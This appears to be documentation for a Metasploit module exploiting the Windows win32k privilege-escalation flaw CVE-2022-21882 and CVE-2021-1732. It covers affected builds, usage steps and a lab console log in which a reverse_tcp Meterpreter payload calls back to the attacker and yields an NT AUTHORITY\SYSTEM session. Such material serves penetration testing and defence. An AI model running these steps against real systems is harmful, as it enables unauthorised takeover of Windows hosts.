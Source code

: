 ## Vulnerable Application
A vulnerability exists within win32k that can be leveraged by an attacker to escalate privileges to those of
NT AUTHORITY\SYSTEM. The flaw exists in how the WndExtra field of a window can be manipulated into being
treated as an offset despite being populated by an attacker-controlled value. This can be leveraged to
achieve an out of bounds write operation, eventually leading to privilege escalation.

This flaw was originally identified as CVE-2021-1732 and was patched by Microsoft on February 9th, 2021.
In early 2022, a technique to bypass the patch was identified and assigned CVE-2022-21882. The root cause is
is the same for both vulnerabilities. This exploit combines the patch bypass with the original exploit to
function on a wider range of Windows 10 targets.

Windows 10 builds 17134 (v1803) through 19041 (v20H1) will use the original technique from CVE-2021-1732, leveraging
`user32!CreateWindowEx` to trigger the `xxxClientAllocWindowClassExtraBytes` hook and corrupt the target window. Windows
10 builds 19042 (v20H2) through 19044 (v21H2) will use the updated technique from CVE-2022-21882, leveraging
`win32u!NtUserMessageCall` to trigger the `xxxClientAllocWindowClassExtraBytes` hook for the same effect.

### Installation And Setup
Windows 10 versions 1803 through 21H2 (without the patch) are vulnerable out of the box. This exploit module has been
tested on Windows 10 versions 1803, 1909, 20H1, 20H2 and 21H2.

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2022_21882_win32k`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 21H2 Build 19044.1288 x64

```
msf6 exploit(windows/local/cve_2022_21882_win32k) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-SRAQBLH\smcintyre
meterpreter > sysinfo
Computer        : DESKTOP-SRAQBLH
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem
[-] stdapi_sys_config_getuid: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(windows/local/cve_2022_21882_win32k) > set SESSION -1
SESSION => -1
msf6 exploit(windows/local/cve_2022_21882_win32k) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_21882_win32k) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf6 exploit(windows/local/cve_2022_21882_win32k) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Launching netsh to host the DLL...
[+] Process 6840 launched.
[*] Reflectively injecting the DLL into 6840...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.87
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.87:52622 ) at 2022-02-18 14:34:00 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-SRAQBLH
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 
```
